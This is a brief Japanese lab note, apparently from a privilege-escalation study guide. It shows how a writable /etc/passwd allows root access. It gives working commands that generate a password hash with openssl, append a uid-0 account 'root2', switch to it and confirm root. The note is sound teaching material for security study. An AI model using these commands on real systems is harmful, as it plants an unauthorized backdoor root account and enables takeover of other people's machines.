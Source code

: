 # /etc/passwd 

/etc/passwdのユーザーレコードの2列目にパスワードハッシュが存在する場合、それは認証に有効とみなされ、/etc/shadowのそれぞれのエントリーがある場合はそちらに優先される

* opensslとpasswdの引数の助けを借りて、パスワードハッシュを生成する。デフォルトでは、他のオプションが指定されていない場合、opensslはLinux認証でサポートされているハッシュ・メカニズムであるcryptアルゴリズム1を使ってハッシュを生成する。

  ```bash
  openssl passwd evil
  fRCncW12oa0wk
  ```

  ```bash
  student@debian:/var/scripts$ echo "root2:fRCncW12oa0wk:0:0:root:/root:/bin/bash" >> /etc/passwd
  student@debian:/var/scripts$ su root2
  Password: 
  root@debian:/var/scripts# id
  uid=0(root) gid=0(root) groups=0(root)
  ```

  